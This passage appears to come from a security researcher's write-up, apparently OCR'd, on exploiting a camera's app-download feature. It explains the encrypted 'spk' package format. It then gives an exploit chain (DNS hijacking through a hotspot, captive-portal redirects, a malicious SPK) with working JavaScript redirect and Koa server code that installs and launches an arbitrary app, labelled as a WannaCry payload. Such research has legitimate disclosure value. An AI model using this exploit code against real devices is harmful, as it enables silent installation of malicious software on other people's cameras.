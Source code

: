 ```java

    if (ScalarADownloader.this.mDownloadResult == 0) {
        v13 = null;
        ScalarADownloader.this.mDownloadFile = new File(
            ScalarAUtilities.getFilesDir(ScalarADownloader.this), this.getFileNameFromHeader(v15.response, this.getLastPathSegment(v18, v15.locations)));
```

The app has `spk` as the extension. It's an encrypted apk. The magic of first 4 bytes is `1spk`, followed by two DWORDs that are the offset of the encrypted data and the length of the encryption key respectively. This encryption key here is encrypted by RSA (makes no sense of course). The app can be decrypted with this AES key.

## Exploit

1. Set up a hotspot and hijack DNS. Redirect `www.***cameraapps.com` to our webserver.
2. Redirect to `/xpd` in the Wifi portal (`/portal/noauth/blank.htm`).
3. Serve malicious SPK and its CIC checksum under `/xpd`.
4. We can install arbitrary APK as soon as the camera connects to the hotspot.
5. Final trick: export another intent in our WannaCry app so it can be launched by the web.

The frontend code of the exploit:

```js
setTimeout(function() {
  location.href = '/xpd';
  setTimeout(function() {
    location.href = '/launch' // launch WannaCry after installation
  }, 1000 * 20)
}, 1000 * 3)
```

As you can notice, there was also a bug that allows multiple redirect within one page. Here's also the server code:

```js
router.get('/xpd', async (ctx, next) => {
  ctx.type = 'application/x-pmca-wifi-dstartup'
  ctx.body = await readFile('xpd') // call the intent to install app
}).get('/payload', async (ctx, next) => {
  ctx.attachment('app.1.spk')
  await send(ctx, 'app.spk') // WannaCry payload
}).get('/exploit', async (ctx, next) => {
  await send(ctx, 'index.html')
}).get('/portal/noauth/blank.htm', async (ctx, next) => {
  ctx.redirect('/exploit') // the first landing page must be a server-side redirect, otherwise the Wifi portal would think that it's successfully connected
}).get('/launch', async (ctx, next) => {
  ctx.type = 'application/cry'
  ctx.body = ''
})
```

## WannaCry
